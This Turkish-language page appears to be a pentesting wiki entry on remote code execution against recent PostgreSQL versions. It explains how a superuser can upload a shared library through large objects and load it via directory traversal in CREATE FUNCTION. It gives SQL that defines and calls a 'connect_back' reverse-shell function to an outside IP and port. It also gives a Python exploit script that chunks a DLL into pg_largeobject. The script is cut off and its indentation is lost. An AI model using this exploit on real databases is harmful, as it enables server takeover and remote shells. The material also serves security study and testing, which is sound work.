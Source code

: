 ### En yeni PostgreSQL sürümlerinde RCE

PostgreSQL'ün **en son sürümlerinde**, `superuser`'ın belirli dizinler dışında paylaşılan kütüphane dosyalarını **yüklemesi** **yasaklanmıştır**; bu dizinler Windows'ta `C:\Program Files\PostgreSQL\11\lib` veya \*nix sistemlerinde `/var/lib/postgresql/11/lib` gibi yerlerdir. Bu dizinler, NETWORK_SERVICE veya postgres hesapları tarafından yazma işlemlerine karşı **güvenli** hale getirilmiştir.

Bu kısıtlamalara rağmen, kimlik doğrulaması yapılmış bir veritabanı `superuser`'ı, "büyük nesneler" kullanarak dosya sistemine **ikili dosyalar yazma** yeteneğine sahiptir. Bu yetenek, veritabanı işlemleri için gerekli olan `C:\Program Files\PostgreSQL\11\data` dizininde yazma işlemlerini de kapsar; bu, tabloları güncelleme veya oluşturma gibi işlemler için gereklidir.

`CREATE FUNCTION` komutundan kaynaklanan önemli bir güvenlik açığı, veri dizinine **dizin geçişine** **izin vermesidir**. Sonuç olarak, kimlik doğrulaması yapılmış bir saldırgan, bu geçişi **istismar ederek** veri dizinine bir paylaşılan kütüphane dosyası yazabilir ve ardından bunu **yükleyebilir**. Bu istismar, saldırgana rastgele kod çalıştırma yeteneği vererek sistemde yerel kod yürütülmesini sağlar.

#### Saldırı akışı

Öncelikle **dll'yi yüklemek için büyük nesneleri kullanmalısınız**. Bunu nasıl yapacağınızı burada görebilirsiniz:


{{#ref}}
big-binary-files-upload-postgresql.md
{{#endref}}

Uzantıyı (bu örnek için poc.dll adıyla) veri dizinine yükledikten sonra, bunu şu şekilde yükleyebilirsiniz:
```c
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
select connect_back('192.168.100.54', 1234);
```
_Not edin ki `.dll` uzantısını eklemenize gerek yoktur çünkü create fonksiyonu bunu ekleyecektir._

Daha fazla bilgi için **orijinal yayını**[ **buradan okuyun**](https://srcin.io/blog/2020/06/26/sql-injection-double-uppercut-how-to-achieve-remote-code-execution-against-postgresql.html)**.**\
O yayında **bu, postgres uzantısını oluşturmak için kullanılan** [**koddu**](https://github.com/sourcein/tools/blob/master/pgpwn.c) (_bir postgres uzantısını nasıl derleyeceğinizi öğrenmek için önceki sürümlerden herhangi birini okuyun_).\
Aynı sayfada bu **teknik otomatikleştirmek için** bir **sömürü** verildi:
```python
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
start = i * 2048
end   = (i+1) * 2048
if i == 0:
sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
else:
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
```